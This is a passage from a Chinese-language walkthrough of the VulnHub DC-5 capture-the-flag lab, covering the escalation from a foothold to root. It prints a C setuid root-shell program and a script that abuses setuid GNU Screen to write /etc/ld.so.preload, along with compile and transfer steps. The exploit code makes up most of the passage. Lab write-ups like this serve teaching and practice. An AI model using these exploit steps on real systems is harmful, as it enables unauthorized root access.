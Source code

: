 然后创建第二个

```c
//第二部分的c文件

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}


//执行下面的命令
gcc -o /tmp/shell /tmp/shell.c
rm -f /tmp/shell.c
```

然后创建一个脚本文件，或者这里的命令，一个个去执行也是可以的

```shell
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/shell  
```

因为靶机内文件编译器有问题，所以这里把两个`c`文件以及脚本文件编写好，然后通过`python`，靶机使用`wget`下载到`/tmp`目录。

不过在靶机使用`gcc`编译出现以下问题时，配置以下临时环境变量即可

```shell
#报错信息
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

![](D:\stu\vulnhub\DC靶场\pic-5\21.jpg)

可以使用临时环境变量配置，一般的`gcc`关键目录可能都在这个

```shell
export PATH=$PATH:/usr/local/bin/
```

这时候再按照两个`c`文件对应的`gcc`编译命令，然后就可以编译成功

![](D:\stu\vulnhub\DC靶场\pic-5\22.jpg)

执行脚本文件，即可发现提权成功

![](D:\stu\vulnhub\DC靶场\pic-5\23.jpg)

查看`flag`
